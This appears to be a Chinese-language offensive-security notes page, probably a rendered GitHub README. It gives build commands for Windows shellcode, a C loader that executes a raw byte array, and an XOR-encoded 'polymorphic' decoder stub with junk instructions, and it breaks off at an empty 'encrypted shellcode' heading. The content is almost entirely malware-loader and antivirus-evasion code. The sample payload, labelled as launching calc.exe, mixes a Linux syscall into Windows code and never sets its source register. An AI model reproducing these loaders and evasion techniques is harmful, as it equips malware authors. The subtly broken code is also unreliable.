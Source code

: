 ```Bash
nasm -f win64 shellcode.asm -o shellcode.o
ld shellcode.o -o shellcode.exe
objdump -d shellcode.exe | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//' | sed 's/ /\\x/g' | paste -d '' -s
```

Shellcode.c
```c
#include <stdio.h>
#include <string.h>
#include <windows.h>

unsigned char code[] = \
"机器码";

int main(int argc, char **argv) {
    void (*func)();
    func = (void (*)()) code;
    func();
    return 0;
}
```

```Bash
x86_64-w64-mingw32-gcc -o cmd.exe shellcode.c -mconsole -lkernel32
```

### 多态Shellcode

```asm
section .text
global _start

_start:
    ; 解码器Stub
    xor rcx, rcx
    mov cl, 0x10          ; Shellcode长度
    xor rbx, rbx
    mov bl, 0xaa          ; XOR密钥
decode:
    xor byte [rsi + rcx - 1], bl
    loop decode

    ; 垃圾指令
    nop
    nop

    ; 实际Shellcode（示例：执行calc.exe）
    db 0x48, 0x31, 0xc0, 0x50, 0x48, 0xb8, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65
    db 0x50, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xf6, 0x48, 0x31, 0xd2, 0xb0, 0x3b, 0x0f, 0x05
```

### 加密Shellcode
